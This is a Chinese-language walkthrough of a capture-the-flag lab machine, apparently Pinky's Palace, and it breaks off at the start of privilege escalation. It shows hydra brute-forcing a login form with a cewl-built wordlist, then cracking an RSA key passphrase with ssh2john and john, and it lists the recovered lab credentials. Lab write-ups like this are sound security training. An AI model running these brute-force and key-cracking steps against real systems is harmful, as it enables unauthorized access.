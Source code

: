 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CVTO7lEtFooENDibdeZPXxiaM33xsXh4mrBHSMJAW9lClJaPP4Wc1kuVA/640?wx_fmt=png)

我用 admin、pinky、pinky1337 知道的用户名去一个一个尝试登录... 都进不去...

这边用九头蛇爆破...

这边使用 fasttrack.txt 和 rockyou.txt 都没找到密码...

我就使用 cewl 对靶机站点生成了一个单词列表（wordpress 站点）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CibCfNcyVp9M527AOeI0uicTobicS92ZUa6QaArxehd7laSTe9tlreiafbQ/640?wx_fmt=png)

```
hydra -L user.txt -P ./dayu.txt pinkydb -s 7654 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=Invalid Username or Password!"
login: pinky   password: Passione
login: pinky1337   password: Blog
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CcrhVxjnGsEZtL2MjibLSwOoR1QTQsZomGMmMwIUK6muuCibTDkWFhfzg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7C9fVZhPxxzgf5vqEibWdBVwW5prSzK26f4Nxaz5D75zfP7dJm3GHCu7w/640?wx_fmt=png)

登录后有个 RSA 密匙... 和一段话，说 Stefano 是实习生 web 安全开发员，提供了 RAS 密匙，供大家登录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7C7RzryrKjiaYG4LZw6IPNstrdBq7Lcn2T7Ih4gDRVR7waDF85CNo30Mg/640?wx_fmt=png)

下载下来后，使用它...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CXlLyhYGfUosrA3lQpWxgKRXRVVb352dvVs8bFbY00uQNv08gCCakgQ/640?wx_fmt=png)

发现还需要 passphrase 才可以登录... 用 ssh2john 配合 john 来破解...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CHicyUQoF2BhicGxCkDuSGhMe78XMQAgo8Wvgl1jV7PHPzuGeYDrCEHxQ/640?wx_fmt=png)

```
ssh2john id_rsa > dayuid_rsa
john --wordlist=/usr/share/wordlists/rockyou.txt dayuid_rsa
RAS的密匙密码为secretz101
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7Ce6RWoMryARFcFmtqlDNfpjBYuqdkvaQa7stic8CrIKFiaibTyyxPiau3rw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/6DdW6admPmWicucEOicwONQBeMWRA7Pq57A9xCTGbIWomiboqObS0bEetoo2qW2hHk2E5GOcuQYUqSlQT5BKsDqRQ/640?wx_fmt=png)

二、提权

![](https://mmbiz.qpic.cn/mmbiz_png/M39rvicGKTibrmYlY2VW5XChia77yhteBC7iarNdYSwicq64NZrCHeSZqRpsFRTZkpfgclSWaibqftONNMWLkz6QjyoQ/640?wx_fmt=png)

成功登陆...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7C5y7NEicyv10nI7TPZAtIyM559WLfwBJAn4pAEeB3hntkDA0pql8eTsA/640?wx_fmt=png)

找了会，进入 tools 目录下，在 note.txt 中有段话，让我用 qsub 小程序来发送会话...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CibaMAqmtUqzEoGPoYShMTkNH4M2XvLIGA4ug0bPhawqjv8Mic0C0MGdg/640?wx_fmt=png)
